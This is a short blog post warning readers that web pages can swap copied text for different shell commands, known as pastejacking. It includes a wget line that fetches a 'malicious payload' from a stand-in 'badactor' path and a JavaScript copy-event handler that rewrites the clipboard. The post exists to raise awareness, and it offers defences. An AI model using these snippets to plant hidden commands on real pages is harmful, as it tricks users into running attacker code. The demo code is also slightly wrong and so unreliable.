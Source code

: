 ## Be careful copy/pasting code or commands from the internet

Original article posted: 19/10/2020 

Cover photo by [Arget](https://unsplash.com/@arget?utm_source=unsplash&amp;utm_medium=referral&amp;utm_content=creditCopyText")  on [Unsplash](https://unsplash.com/)

Credit to  [https://briantracy.xyz/writing/copy-paste-shell.html](https://briantracy.xyz/writing/copy-paste-shell.html)  for bringing the topic/issue to my attention!

## The Problem

As an avid Linux‘er and Windows Power User where it is commonplace to copy & paste code/scripts/commands from tutorials and help sites, it always intrigues me how bad actors find ways of exploiting users in way’s I haven’t considered before.

An example of this from Brian Tracy is how the data you “copy” from a website isn’t necessarily what ends up in your Clipboard for pasting!

With just a few additional lines of JavaScript/code to a website, you can make it so that when a user performs a Copy action, the actual text copied to the clipboard is not the actual text you were trying to copy.

## How does it happen?

A real-world example of this may be some lines of code for installing a package on Debian where the code is perfectly innocent (don’t worry if you don’t understand it – this is just for demo purposes):

```bash
wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
tar xvzf super-awesome-package.tar.gz
```

This code is perfectly innocent and does exactly what it says on the tin, but with this example and a bad actor in play, you could end up with something like the following actually in your Clipboard, where instead of grabbing the intended package from Github, it’s actually grabbing something more sinister and renaming the asset as the intended one:

```bash
wget super-awesome-package.tar.gz https://github.com/badactor/mallicious-payload.tar.gz
tar xvzf super-awesome-package.tar.gz
```

Here is an example of how the switch can be made and the malicious code can be injected with a couple of lines of JavaScript in the webpage:

```javascript
document.querySelector('#ExampleCode').addEventListener('copy', evtCopy => {
    evtCopy.clipboardData.setData('text/plain', 
        'sudo wget https://github.com/tim/super-awesome-package/super-awesome-package.tar.gz
 \n sudo tar xvzf super-awesome-package.tar.gz \n sudo another command \n echo done'
    );
    evtCopy.preventDefault();
});
```

In the above snippet, the bad actor copies the malicious code to the Clipboard, and by ending each command with a New Line “\n” statement, the shell will normally execute the next line automatically and happen so quickly that you may not even spot the swap.

## Solutions?

* While it may be a drag to do so, a simple way to combat this problem would be to have a text file open that you can paste into before pasting into the console to ensure there are no extra lines of code being added or replaced.
* Another way to combat it would be to type the commands out by hand (I used to do this a lot when I first started using Linux as I found the process of typing the whole command out from scratch helped me to pick things).

If you have any ideas, suggestions or solutions to this - please get in touch and I'll add them onto my post with a credit to you! 😊
